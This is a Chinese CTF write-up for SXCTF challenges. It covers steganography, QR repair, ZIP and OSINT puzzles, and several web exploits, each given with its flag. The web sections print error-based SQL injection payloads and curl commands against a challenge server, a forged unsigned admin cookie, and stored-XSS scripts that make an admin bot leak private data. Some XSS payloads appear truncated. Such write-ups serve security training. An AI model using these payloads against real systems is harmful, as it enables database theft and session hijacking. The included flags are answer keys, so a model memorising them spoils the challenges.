## 办公室爱情_misc

- 文件：办公室爱情.zip

- 内容：沃德.docx，皮皮特的外套.zip内含 皮皮特.pptx，皮迪符.pdf

- 描述： flag格式为SXCTF{...}

### 解题步骤

**1.使用WPS打开沃德.docx**

护眼模式下发现白色文字
password1: **True_lOve_**

关闭隐藏文字效果
password12: **i2_supReMe**

True_lOve_i2_supReMe即True love is supreme，符合题目名称

**2.使用隐写工具wbStego4打开皮迪符.pdf，密码输入True_lOve_i2_supReMe**


保存到pass.txt，打开得到this_is_pAssw0rd@!

**3.解压-皮皮特的外套.zip，密码输入this_is_pAssw0rd@!**



是各种颜色的幻灯片，除了白色出现7种颜色，猜测为7进制，白色为间隔

204 213 166 205 234 100 66 226 203 164 203 231 124 203 100 164 45 45 45 236

```python
cipher = "204 213 166 205 234 100 66 226 203 164 203 231 124 203 100 164 45 45 45 236"

outcome = "".join([chr(int(x, 7)) for x in cipher.split()])

print(outcome)
```

```python
flag{10ve_exCe1_!!!} #love excel,符合题目名称
```

SXCTF{10ve_exCe1_!!!}


## 反转

- 文件：Pasted image 20260718112519.png

- 内容：待修复二维码的png图片

- 描述：好像有点像二维码 ... (flag格式为SXCTF{...})

### 解题步骤

修复二维码，反转，颜色的反转，目标：灰色调整为黑色。


1. 搜索并打开免费的在线修图网站（例如 [photopea](https://www.photopea.com/#)）。
2. 把你的二维码图片拖入浏览器中。
3. 同样在顶部菜单找到：**图像 (Image) -> 调整 (Adjustments) -> 阈值 (Threshold)**。
4. 将滑块往右拉，直到二维码变黑，截图扫描。





`SXCTF{tHiS_Is_FlaG_Hi}`


## 好看

- 名称：好看
- 文件：eeb4696a6a15a45ab7519b15d1ab59ee.png
- 描述：补充misc的一个简单   flag{佛像名称_XX市}

### 分析步骤


**第一步：提取核心视觉特征**

1. **金色露天巨型佛像**：画面背景中有一尊通体贴金、站立姿态的巨大佛像。
2. **佛像背后的巨型宝盖（佛龛/背光）**：佛像上方及身后，有一个呈火焰状或高耸拱门状的金色雕花宝盖。这是该佛像最瞩目的标志性建筑。
3. **前景植物（时令线索）**：前景有一株盛开的**垂枝梅（粉色梅花）**。园林修剪风格多见于中国南方的佛教寺院（如江南或赣北地区）。 

**第二步：图像反查与关键词检索**

利用图片反查（如 Google 识图或百度识图）或者使用组合关键词检索：

- **检索词**：`金色大佛 站立 宝盖`、`露天阿弥陀佛 宝盖` 或 `垂枝梅 大佛`。
- **匹配结果**：可以极其精准地匹配到位于江西的 **东林大佛**（全球最高的阿弥陀佛铜像）。

**第三步：行政区划确认（锁定城市名）**



flag{东林大佛_九江市}


## 懒

- 名称：懒

- 描述：F0xm1ao说他不想出题，所以就有了这一题。F0xm1ao说他非常失望，没有人尝试去搜索他的ID

### 分析步骤

1.搜索ID，下载两个文件



2.放大可以看到：泰州农村商业银行，酥垚糕点


上图对应了线索，锁定路口的名称见下图



SXCTF{泰州\_迎春东路\_东风南路\_东风北路}


## 我真不知道密码是啥

- 名称：我真不知道密码是啥 
- 文件：`我也不知道密码是什么.zip`
- 内容：`flag.txt`
- 描述："我真不知道密码是啥"（flag 格式为 SXCTF{...}）

### 解题步骤

**1. 初看：以为是个密码爆破题**

用 7z  尝试解压，提示需要密码。直觉反应是 ZIP 加密 + 已知明文攻击。

**2. 分析 ZIP 二进制结构**

用 010 Editor  解析 ZIP 结构：



**关键矛盾**：本地文件头的 flags 说加密了，但中央目录的 flags 说没加密。

**3. 灵光一闪：会不会根本没加密？**

 ZIP 结构分析的结果——**中央目录说没加密**。如果中央目录是对的，那 12 字节"加密头"其实就不是加密头，而是 deflate 压缩流的一部分。修改全局方式位标记


直接解压，此时无需密码解压成功，打开flag.txt



SXCTF{beCause_nO_PassWOrd}

## 天象馆预约台_web

- 名称：天象馆预约台
- 描述：这个天象馆的查询似乎有问题？
- 考点：SQL 注入的报错注入、WAF 关键字拦截绕过

### 解题步骤

#### 1. 首页侦查

访问首页，一个天象馆预约系统：

- `/` — 今日场次列表，展示编号、节目名、讲解员、场地
- `/detail.php?id=N` — 场次详情页（注入点）
- `/search.php?q=` — 节目检索
- `/notice.php` — 展馆公告（静态内容）
- `/reader.php` — 访客服务（静态内容）

页面提示："设备巡检记录仅供内部值班人员核对，不在访客端展示"——暗示存在隐藏的巡检/审计数据表。

#### 2. 确认注入点

测试 `detail.php` 的 `id` 参数：

```bash
# 正常访问
curl 'http://160.30.231.242:33046/detail.php?id=1'
#  显示"火星逆行观测夜"详情

# 单引号注入
curl 'http://160.30.231.242:33046/detail.php?id=1%27'
#  数据库错误：near ''1''' at line 1
```

MariaDB 语法错误直接回显，确认为**字符型注入、单引号闭合**。

进一步验证：

| Payload       | 结果                       | 说明                     |
| ------------- | -------------------------- | ------------------------ |
| `1' or 1=1#`  | 正常返回数据               | TRUE 条件生效            |
| `1' and 1=2#` | "未找到对应的公开场次记录" | FALSE 条件生效，注入确认 |

#### 3. 判断列数

```bash
for i in $(seq 1 10); do
  curl -s "http://.../detail.php?id=1' order by $i#" | grep -c '数据库错误'
done
```

order by 5 正常，order by 6 报错 → **5 列**。

#### 4. 尝试 Union Select —— 被 WAF 拦截

```bash
curl 'http://.../detail.php?id=-1' union select 1,2,3,4,5#'
```

返回：**"查询被预约台安全规则拦截：union"**

尝试绕过：

| 绕过手法   | Payload                  | 结果        |
| ---------- | ------------------------ | ----------- |
| 大小写变形 | `UnIoN SeLeCt`           | 拦截：UnIoN |
| 内联注释   | `/*!50000union*/ select` | 拦截：union |
| 双写       | `ununionion select`      | 拦截：union |
| 换行符     | `union%0aselect`         | 拦截：union |
| Tab 符     | `union%09select`         | 拦截：union |

**结论**：WAF 对 `union` 关键字做了大小写不敏感的拦截，且会先做规范化再去重。Union 注入的路被堵死。

#### 5. 换报错注入

既然页面直接回显 MariaDB 错误，尝试 `extractvalue` 报错注入：

```bash
curl 'http://.../detail.php?id=1' and extractvalue(1,concat(0x7e,database()))#'
```

返回：`XPATH syntax error: '~ctf'` —— **成功！报错注入未被拦截。**

#### 6. 获取表名

```sql
1' and extractvalue(1,concat(0x7e,(
  select group_concat(table_name)
  from information_schema.tables
  where table_schema=database()
)))#
```

 `audit_notes,books`

#### 7. 获取列名

```sql
-- audit_notes
1' and extractvalue(1,concat(0x7e,(
  select group_concat(column_name)
  from information_schema.columns
  where table_name='audit_notes'
)))#
```

 `id,label,secret`

```sql
-- books
 `id,title,author,shelf,public,summary`
```

#### 8. 读取 secret 数据

先看 `audit_notes` 的全部 id 和 label：

```sql
1' and extractvalue(1,concat(0x7e,(
  select group_concat(id,0x3a,label) from audit_notes
)))#
```

 `1:daily-backup,2:friendship-key`

id=1 的 secret 为 "No secrets in this row."，id=2 才是目标：

```sql
1' and extractvalue(1,concat(0x7e,(
  select secret from audit_notes where id=2
)))#
```

 `flag{f8b31c9c-9e78-4471-aaa4...`

#### 9. 突破 extractvalue 32 字符限制

`extractvalue` 单次只能回显 32 字节，flag 被截断了。用 `substr` 取后半段：

```sql
1' and extractvalue(1,concat(0x7e,(
  select substr(secret,25) from audit_notes where id=2
)))#
```

`aaa4-9dde9c6b60d9}`

拼接完整：**`flag{f8b31c9c-9e78-4471-aaa4-9dde9c6b60d9}`**

flag{f8b31c9c-9e78-4471-aaa4-9dde9c6b60d9}


## Cookie Bakery

- 名称：Cookie Bakery
- 描述：管理员把秘密配方放在了后台。普通用户登录后只能看到自己的身份，试试看能不能拿到管理员才能看到的内容。


### 解题步骤

#### 1. 首页侦查

访问首页，一个极简的登录表单：

```html
<form method="post" action="/login">
  <label for="username">Nickname</label>
  <div class="row">
    <input id="username" name="username" value="guest" maxlength="32" autocomplete="off">
    <button type="submit">Login</button>
  </div>
</form>
```

导航栏有三个链接：`/`、`/admin`、`/source`。其中 `/source` 直接返回服务端源码。

#### 2. 阅读源码

访问 `/source` 获得完整 Python 源码。关键代码分析如下：

**Session 生成（登录时）：**

```python
def b64encode_json(data):
    raw = json.dumps(data, separators=(",", ":")).encode()
    return base64.urlsafe_b64encode(raw).decode().rstrip("=")

# 登录时
session = b64encode_json({"username": username, "role": "guest"})
self.send_header("Set-Cookie", f"session={session}; Path=/; SameSite=Lax")
```

**Session 解析（访问 /admin 时）：**

```python
def b64decode_json(value):
    value += "=" * (-len(value) % 4)
    raw = base64.urlsafe_b64decode(value.encode())
    return json.loads(raw.decode())

def current_session(self):
    cookie = SimpleCookie(self.headers.get("Cookie"))
    if "session" not in cookie:
        return {}
    return b64decode_json(cookie["session"].value)
```

**权限校验（/admin 页面）：**

```python
def admin(self):
    session = self.current_session()
    username = html.escape(str(session.get("username", "anonymous")))
    role = str(session.get("role", "guest"))

    if role == "admin":
        panel = f"""<div class="success">
  <h2>Welcome, admin.</h2>
  <p class="flag">{html.escape(FLAG)}</p>
</div>"""
```

核心漏洞：

1. Session 数据完全存储在客户端 Cookie 中（不是服务端 Session ID 模式）
2. Cookie 仅做 Base64 编码，**没有任何签名（HMAC）或加密**
3. 服务端无条件信任 Cookie 中的 `role` 字段
4. `role == "admin"` 即放出 flag

#### 3. 尝试正常登录

用 `guest` 登录，得到 session cookie：

```python
# {"username":"guest","role":"guest"} → base64
eyJ1c2VybmFtZSI6Imd1ZXN0Iiwicm9sZSI6Imd1ZXN0In0
```

访问 `/admin`，返回：

```
Hello, guest. Your current role is guest.
Only admin can read the secret recipe.
```

确认普通用户无法访问。

#### 4. 伪造 admin Cookie

选中guest部分，更改为admin



#### 5. 用伪造 Cookie 访问 /admin



SXCTF{966edd20-ee49-4f58-9991-85cfc1464f95}


## ez_review

- 名称：ez_review
- 考点：存储型 XSS、管理员 Bot 模拟、`innerHTML` 无过滤导致脚本执行
- 描述：你也来留个言吧！(flag格式为SXCTF{...})

### 解题步骤

#### 1. 首页侦查

访问首页是一个留言墙应用 "赣青留言墙"，包含三个页面：

- `/index.html` — 最新留言（公开列表）
- `/new.html` — 发布留言
- `/archives.html` — 归档检索（含搜索和 JSONP 接口）

还有一个 "辅导员巡墙" 按钮。

#### 2. 阅读前端 JS

**`js/main.js`** 暴露了关键逻辑：

```js
function renderMessages(list, targetId, emptyText) {
  // ...
  list.forEach((m) => {
    card.innerHTML = `
      <div class="message-meta">
        <span class="message-user">${escapeHtml(m.username)}</span>
        <span>${escapeHtml(m.timestamp)}</span>
      </div>
      <div class="message-content">${m.content}</div>   ← 未转义！
    `;
  });
}
```

**关键漏洞**：`m.content` 直接拼接到 `innerHTML`，没有经过 `escapeHtml()` 处理。而 `m.username` 和 `m.timestamp` 都被正确转义。

#### 3. 发现管理员 Bot（辅导员巡墙）

`index.html` 内联脚本：

```js
document.getElementById('review-button').addEventListener('click', async () => {
  await apiCall('/report', {
    method: 'POST',
    body: JSON.stringify({ path: '/index.html' })
  });
  setToast('辅导员已收到巡查提醒');
  window.setTimeout(loadMessages, 4200);  // 4.2 秒后刷新
});
```

点击 "辅导员巡墙" 会 POST `/api/report`，触发管理员（counselor）Bot 访问指定路径。4.2 秒后页面自动刷新消息列表，暗示 Bot 会在短时间内完成访问并产生影响。

#### 4. 攻击链设计

```
攻击者 POST 含 XSS 的留言
      ↓
调用 /api/report 触发 Bot 访问 index.html
      ↓
Bot 浏览器渲染留言列表，执行 XSS payload
      ↓
XSS 以 counselor 身份请求 /api/auth/me 和 /api/archives
      ↓
XSS 将窃取的数据 POST 为新的公开留言
      ↓
攻击者从留言列表读取 counselor 的私密归档数据
```

#### 5. 第一步 XSS：验证 Bot 身份

Payload：

```html
r.json()).then(d=>fetch('/api/messages',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({content:JSON.stringify(d),is_private:false})}))">
```

POST 到 `/api/messages` 发布为公开留言，然后调用 `/api/report`。

Bot 执行后，留言墙出现新留言：

```json
{"ok":true,"user":{"username":"counselor","isAdmin":true}}
```

确认 Bot 以管理员 `counselor` 身份运行。

#### 6. 第二步 XSS：窃取私密归档

Payload：

```html
r.json()).then(data=>{
  const full = JSON.stringify(data);
  const half = Math.ceil(full.length/2);
  fetch('/api/messages',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({content:'PART1:'+full.substring(0,half),is_private:false})}).then(()=>{
    fetch('/api/messages',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({content:'PART2:'+full.substring(half),is_private:false})})
  })
})
">
```

由于单条留言有长度限制，将数据拆成两段。

Bot 执行后，获得 counselor 的归档数据：

```json
[{"id":1003,"username":"辅导员值班本","content":"【私密归档】2026 迎新留言墙应急口令：SXCTF{D0oOM_XSS_1s_ez_right?cba853a301dd}","is_private":true,"status":"archived","timestamp":"2026-06-18 22:10:00"}]
```

### Flag

SXCTF{D0oOM_XSS_1s_ez_right?cba853a301dd}

## JWT

- 名称：JWT
- 文件：src.zip
- 内容：java源文件
- 描述：网站是怎么判断用户身份的呢?

### 解题步骤

1.一个登录界面

2.附件解压，源码泄露，admin账号密码明文可见



3.登录即送flag



SXCTF{e4sy_jwt_n0ne_4lg_byp4ss}


